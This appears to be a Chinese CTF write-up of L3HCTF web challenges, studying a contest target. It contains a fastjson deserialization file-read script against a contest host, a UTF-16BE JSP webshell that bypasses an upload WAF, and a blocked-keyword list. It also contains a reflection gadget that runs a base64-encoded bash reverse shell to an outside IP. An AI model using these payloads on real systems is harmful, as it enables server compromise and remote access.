







# 前言

第一次打这种比赛，确实太难了，只出了两道最最最最最简单的题目，其他的题目都是复现学习别的队伍的writeup了。呜呜自己还是太菜了。（我真去学期末了，不骗你们。）


# Image Service 1

随便注册登录上去，盲猜一手不区分大小写，出flag1：



# Easy PHP

正常传发现不对，把代码复制粘贴到phpstorm上就发现多了东西：



再复制一下：



拿urlencode读一下：

```php
echo urlencode(file_get_contents("1.php"));
```

```
%3C%3Fphp%0D%0A%22%E2%80%AE%E2%81%A6CTF%E2%81%A9%E2%81%A6l3hctf%22+%3D%3D+%24_GET%5B%E2%80%AE%E2%81%A6L3H%E2%81%A9%E2%81%A6password%5D++%2F%2FWelcome+to%0D%0A
```

先找双引号(%22)包裹的那部分：`%E2%80%AE%E2%81%A6CTF%E2%81%A9%E2%81%A6l3hctf`

再找被中括号包裹的那部分：`%E2%80%AE%E2%81%A6L3H%E2%81%A9%E2%81%A6password`

传过去即可：



# cover

admin、123456登录进后台，经过拿dns测试这里存在fastjson：



因为对fastjson不熟悉，在查各种POC，这时候官方给了hint:

```
HINT: fastjson:1.2.68 JSON.parseArray(data,User.class);
```

查了一下查到了这个东西：

https://cloud.tencent.com/developer/article/1829644

正好根据题目给的`JDK_HOME:/usr/lib/jvm/java-1.8.0-openjdk-1.8.0.292.b10-1.el8_4.x86_64`，知道了JDK的路径，可能是写文件。

但是在打的时候发现了`MarshalOutputStream`和`InflaterOutputStream`这两个类被ban了。然后啊，我就G了。。。。


赛后复现别的师傅的writeup，他是读文件，参考文章：

https://mp.weixin.qq.com/s?__biz=MzUzNDMyNjI3Mg==&mid=2247484866&idx=1&sn=23fb7897f6e54cdf61031a65c602487d&scene=21#wechat_redirect


盲注即可：

```python
import requests
import string

url="http://124.71.173.23:8088/dynamic_table"

headers={
    "Cookie":"JSESSIONID=55E2836FC031E7C69976B142F1172901"
}
flag=""
for i in range(10000):
    for j in string.printable:
        payload="""[{"age":{
            "age": {
                "@type": "java.lang.AutoCloseable",
                "@type": "org.apache.commons.io.input.BOMInputStream",
                "delegate": {
                    "@type": "org.apache.commons.io.input.ReaderInputStream",
                    "reader": {
                        "@type": "jdk.nashorn.api.scripting.URLReader",
                        "url": "file:///flag"
                    },
                    "charsetName": "UTF-8",
                    "bufferSize": 1024
                },
                "boms": [{
                    "charsetName": "UTF-8",
                    "bytes": ["""+flag+str(ord(j))+"""]
                }]
            },
            "address": {
                "$ref": "$.abc.BOM"
            }},"id":1,"password":"1","username":"1"
        }]"""
        data={
            "data":payload
        }
        r=requests.post(url=url,data=data,headers=headers)
        if "charsetName" in r.text:
            flag += str(ord(j))+","
            temp = flag.split(",")
            temp.remove("")
            for k in temp:
                print(chr(int(k)),end="")
            print()
            break
#L3HCTF{cov3r_means_discover_4nd_k1ll_1t_over!!}
```


但是官方的预期解似乎是写文件，等官方writeup了。

# bypass

继续学习别的师傅的writeup。感觉绕waf这一块属实是不会了，php可能还行，jsp马绕waf属实跪了。

```java
package com.l3hsec;

import org.apache.commons.fileupload.FileItem;
import org.apache.commons.fileupload.disk.DiskFileItemFactory;
import org.apache.commons.fileupload.servlet.ServletFileUpload;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.File;
import java.io.IOException;
import java.io.PrintWriter;
import java.util.List;
import java.util.UUID;
import java.util.regex.Matcher;
import java.util.regex.Pattern;

@WebServlet("/UploadServlet")
public class UploadServlet extends HttpServlet {

    private static final long serialVersionUID = 1L;

    // 上传文件存储目录
    private static final String UPLOAD_DIRECTORY = "upload";

    // 上传配置
    private static final int MEMORY_THRESHOLD = 1024 * 1024 * 3;
    private static final int MAX_FILE_SIZE = 1024 * 1024 * 1;
    private static final int MAX_REQUEST_SIZE = 1024 * 1024 * 1;

    /**
     * 上传数据及保存文件
     */
    protected void doPost(HttpServletRequest request,
                          HttpServletResponse response) throws ServletException, IOException {

        response.setCharacterEncoding("UTF-8");
        response.setContentType("text/html;charset=UTF-8");


        DiskFileItemFactory factory = new DiskFileItemFactory();
        factory.setSizeThreshold(MEMORY_THRESHOLD);
        factory.setRepository(new File(System.getProperty("java.io.tmpdir")));

        ServletFileUpload upload = new ServletFileUpload(factory);

        upload.setFileSizeMax(MAX_FILE_SIZE);

        upload.setSizeMax(MAX_REQUEST_SIZE);

        upload.setHeaderEncoding("UTF-8");


        String userDir = md5(request.getRemoteAddr());
        String uploadPath = request.getServletContext().getRealPath("./") + File.separator + UPLOAD_DIRECTORY + File.separator + userDir;


        File uploadDir = new File(uploadPath);
        if (!uploadDir.exists()) {
            uploadDir.mkdir();
        }

        try {
            List<FileItem> formItems = upload.parseRequest(request);

            if (formItems != null && formItems.size() > 0) {
                for (FileItem item : formItems) {
                    if (!item.isFormField()) {
                        String fileName = new File(item.getName()).getName();
                        if (fileName.lastIndexOf('.') == -1) {
                            PrintWriter writer = response.getWriter();
                            writer.println("Error: 缺少文件后缀！");
                            writer.flush();
                            return;
                        }


                        String ext = fileName.substring(fileName.lastIndexOf('.'));
                        ext = checkExt(ext);

                        String filePath = uploadPath + File.separator + randName() + ext;
                        File storeFile = new File(filePath);

                        String content = item.getString();
                        boolean check = checkValidChars(content);

                        if (check){
                            response.getWriter().write("上传失败：检测到可见字符");
                            return;
                        }

                        //居然被绕过了，得再加一层过滤
                        BlackWordsDetect blackWordsDetect = new BlackWordsDetect(item);
                        boolean detectResult = blackWordsDetect.detect();
                        if (detectResult) {
                            response.getWriter().write("上传失败：检测到黑名单关键字！ " + blackWordsDetect.getBlackWord());
                            return;
                        } else {
                            item.write(storeFile);
                            response.getWriter().write("文件上传成功! 文件路径: " + filePath);
                        }
                    }
                }
            }
        } catch (Exception ex) {
            response.getWriter().write(
                    "上传失败：错误原因: " + ex.getMessage());
        }
    }

    public static String md5(String s) {
        String ret = null;
        try {
            java.security.MessageDigest m;
            m = java.security.MessageDigest.getInstance("MD5");
            m.update(s.getBytes(), 0, s.length());
            ret = new java.math.BigInteger(1, m.digest()).toString(16).toLowerCase();
        } catch (Exception e) {
        }
        return ret;
    }

    public static String randName() {

        return UUID.randomUUID().toString();
    }

    public static boolean checkValidChars(String content) {
        Pattern pattern = Pattern.compile("[a-zA-Z0-9]{2,}");
        Matcher matcher = pattern.matcher(content);
        return matcher.find();
    }

    public static String checkExt(String ext) {
        ext = ext.toLowerCase();

        String[] blackExtList = {
                "jsp", "jspx"
        };
        for (String blackExt : blackExtList) {
            if (ext.contains(blackExt)) {
                ext = ext.replace(blackExt, "");
            }
        }

        return ext;
    }
}
```

就是三层waf吧，一层是后缀，双写绕过即可：

```java
        for (String blackExt : blackExtList) {
            if (ext.contains(blackExt)) {
                ext = ext.replace(blackExt, "");
            }
        }
```

第二层是不能有两个连续的大小写字母和数字：

```java
    public static boolean checkValidChars(String content) {
        Pattern pattern = Pattern.compile("[a-zA-Z0-9]{2,}");
        Matcher matcher = pattern.matcher(content);
        return matcher.find();
    }
```

第三层就是额外的黑名单关键字：

```java
                        //居然被绕过了，得再加一层过滤
                        BlackWordsDetect blackWordsDetect = new BlackWordsDetect(item);
                        boolean detectResult = blackWordsDetect.detect();
                        if (detectResult) {
                            response.getWriter().write("上传失败：检测到黑名单关键字！ " + blackWordsDetect.getBlackWord());
```

当时就跪在了第二层上，一直在找怎么编码绕waf，没有找到。

学习一波了：https://www.anquanke.com/post/id/210630#h3-3

试着写一个：

```java
<?xml version="1.0" encoding="UTF-16be"?>
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
          version="1.2">
    <jsp:directive.page contentType="text/html"/>
    <jsp:declaration>
    </jsp:declaration>
    <jsp:scriptlet>
        response.getWriter().println("ego");
    </jsp:scriptlet>
    <jsp:text>
    </jsp:text>
</jsp:root>
```

然后进行UTF-16BE编码，本来拿Java写了一个，然后发现Java的编码转换有点怪怪的。。。还是按照writeup里面那样拿php来写了：

```php
<?php
$content = file_get_contents("shell.jsp");
$content = iconv("utf-8","utf-16be",$content);
file_put_contents("encodeShell.jsp",$content);
```



成功执行：



那么这样的话，第二层waf也就成功绕过了。

第三层的话真的ban了好多的东西，我测试了几个我知道的都被ban掉了：

```
Runtime
newInstance
invoke
ProcessBuilder
ELProcessor
```

主要的问题就是invoke被ban了，这个就不会绕了。。。看了`Dest0g3`的web师傅的writeup

```java
    Class clazz = com.sun.org.apache.xalan.internal.utils.ObjectFactory.findProviderClass("java.lang.Run" + "time", true);
    java.lang.reflect.Method m1 = com.sun.org.glassfish.gmbal.ManagedObjectManagerFactory.getMethod(clazz, "getRun"+"time", null);
    java.lang.reflect.Method m2 = com.sun.org.glassfish.gmbal.ManagedObjectManagerFactory.getMethod(clazz, "ex"+"ec", String.class);
    Object o = com.sun.xml.internal.bind.v2.ClassFactory.create(m1);
    new com.sun.xml.internal.ws.spi.db.MethodSetter(m2).set(o,"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjEuNS4xNjkuMjIzLzM5NzY3IDA+JjE=}|{base64,-d}|{bash,-i}");
```

nb。。。收藏一手。


# 参考链接

https://mp.weixin.qq.com/s?__biz=Mzg5NDY4NTc4NQ==&mid=2247483993&idx=1&sn=28807ae6716ae97f5c4332a3df16dcf9&chksm=c01a856ff76d0c7951ef2c2e5b132cd070d8f4e3a96c828ad73b341628afbeac21a37624b206&mpshare=1&scene=23&srcid=1116qSvOQUWGX8iJCvpYylKn&sharer_sharetime=1637046303542&sharer_shareid=2cd15dd5abca7cee0fa30d6c72437d05#rd

